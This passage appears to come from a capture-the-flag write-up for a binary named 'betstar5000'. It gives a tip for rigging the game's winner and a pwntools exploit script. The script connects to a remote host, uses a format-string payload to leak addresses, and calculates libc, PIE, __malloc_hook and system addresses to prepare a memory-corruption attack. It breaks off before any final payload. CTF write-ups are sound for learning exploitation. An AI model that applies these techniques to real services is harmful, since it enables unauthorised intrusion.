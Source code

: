 Also one last thing. I didn't reverse out the functionality for the guessing game, however I found a way to reliably pick which player won. For this just give each of the non winning characters a number as close to `100` as possible, while giving the player you want to win the number `1`.

## Exploit

With that, we can put together the following exploit:

```
from pwn import *

#target = process("./betstar5000")
target = remote("13.53.69.114", 50000)
#gdb.attach(target)

elf = ELF("betstar5000")
libc = ELF("libc-2.27.so")


def getMenu():
    print target.recvuntil("5. End the game")

def getLeaks():
    getMenu()
    target.sendline("1")# menu
    target.sendline("1")
    target.sendline("1")
    print target.recvuntil("And the winner is *drumroll*: ")
    leak = target.recvline().strip("\n")
    return leak

def addPlayer(name):
    getMenu()
    target.sendline("3")
    raw_input()
    target.sendline(name)

def editPlayer(index, name):
    target.sendline("4")
    raw_input()

    target.sendline(str(index))
    raw_input()

    target.sendline(name)


# Get infoleaks, calculate needed addresses

target.sendline("1")
target.sendline("%x.%x")

leak = getLeaks()

pieBase = int(leak.split(".")[0], 16) - 0x105c
libcBase = int(leak.split(".")[1], 16) - 0x1d85c0
mallocHook = libcBase + libc.symbols["__malloc_hook"]
system = libcBase + libc.symbols["system"]
strtok = pieBase + 0x2584

print "pie base is: " + hex(pieBase)
print "libc base is: " + hex(libcBase)
print "malloc hook is: " + hex(mallocHook)
print "strtok: " + hex(strtok)
```